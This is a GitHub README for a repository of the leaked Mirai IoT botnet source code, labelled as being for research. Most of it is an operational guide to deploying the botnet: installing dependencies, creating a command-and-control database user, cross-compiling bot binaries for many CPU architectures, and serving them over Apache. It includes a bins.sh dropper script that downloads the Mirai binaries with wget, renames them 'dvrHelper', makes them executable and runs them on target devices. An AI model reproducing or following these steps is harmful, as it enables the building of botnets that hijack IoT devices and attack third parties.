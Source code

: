 # Mirai BotNet to Tashiro
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code.

## Requirements
* To be able to use vi.
* Do not run in WSL.
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution. 

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.<br />
※If you are unable to install the software, please refer to the following URL for installation.

https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

```
# apt-get install git gcc golang electric-fence mysql-server mysql-client
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
# service mysql start
```
Add users to mysql.
```
# mysql -uroot -proot mirai
> INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# service mysql restart
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
Build bot and CNC
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh debug telnet
```
Install Apache2 server.
```
# cd ../mirai/debug
# sudo apt-get install apache2 -y
# service apache2 start
# cp mirai.* /var/www/html
# cd /var/www/html
# rm -fr /var/www/html/index.html
```
Check by entering localhost in a browser such as Fireforx.

When you have finished checking, copy and paste the following code and save it as bins.sh.
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
    wget http://$WEBSERVER/$Binary -O dvrHelper
    chmod 777 dvrHelper
    ./dvrHelper
done

rm -f "
```
Restart Apache2 after saving bins.sh
```
# service apache2 restart
```
Build loader
```
# cd ../loader
# chmod +x build.sh
# ./build.sh
```
This completes the installation. :)
